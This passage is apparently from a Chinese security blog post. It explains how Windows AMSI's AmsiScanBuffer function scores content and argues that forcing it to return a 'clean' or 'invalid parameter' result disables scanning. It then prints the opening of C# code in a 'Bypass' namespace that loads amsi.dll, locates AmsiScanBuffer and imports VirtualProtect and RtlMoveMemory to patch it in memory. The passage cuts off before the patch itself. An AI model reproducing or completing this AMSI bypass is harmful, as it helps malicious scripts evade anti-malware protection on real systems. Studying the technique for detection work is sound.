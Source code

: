 在函数执行过程中，待分析的内容会被发送到反恶意软件服务，后者会返回`1`到`32762`（含）之间的一个整数。整数值越大，则代表风险越高。如果证书大于或等于`32762`，那么就会将其判断为恶意数据，加以阻止。随后系统会根据返回的整数值来更新`AMSI_RESULT`变量值。

所以说我们可以让函数直接返回 0，代表 AMSI\_RESULT\_CLEAN，或者改成别的负数，代表在扫描的过程中出现了一些问题，比如说 80070057h，就代表`HRESULT_FROM_WIN32(ERROR_INVALID_PARAMETER)`，表示参数无效，而我们如果逆向一下这个函数也会发现函数在执行开始会先检查参数，如果参数出现错误就直接返回这个错误代码。

[![](assets/1709530518-7ce8e99e654ec9717c719c8447dedbab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303102047-a539c286-d904-1.png)

所以我们的代码可以如下：

```plain
using System;
using System.Runtime.InteropServices;

namespace Bypass
{
    public class AMSI
    {
        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);
        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("Kernel32.dll", EntryPoint = "RtlMoveMemory", SetLastError = false)]
        static extern void MoveMemory(IntPtr dest, IntPtr src, int size);


        public static int Disable()
        {
            IntPtr TargetDLL = LoadLibrary("amsi.dll");
            if (TargetDLL == IntPtr.Zero)
            {
                Console.WriteLine("ERROR: Could not retrieve amsi.dll pointer.");
                return 1;
            }

            IntPtr AmsiScanBufferPtr = GetProcAddress(TargetDLL, "AmsiScanBuffer");
            if (AmsiScanBufferPtr == IntPtr.Zero)
            {
                Console.WriteLine("ERROR: Could not retrieve AmsiScanBuffer function pointer");
                return 1;
            }
```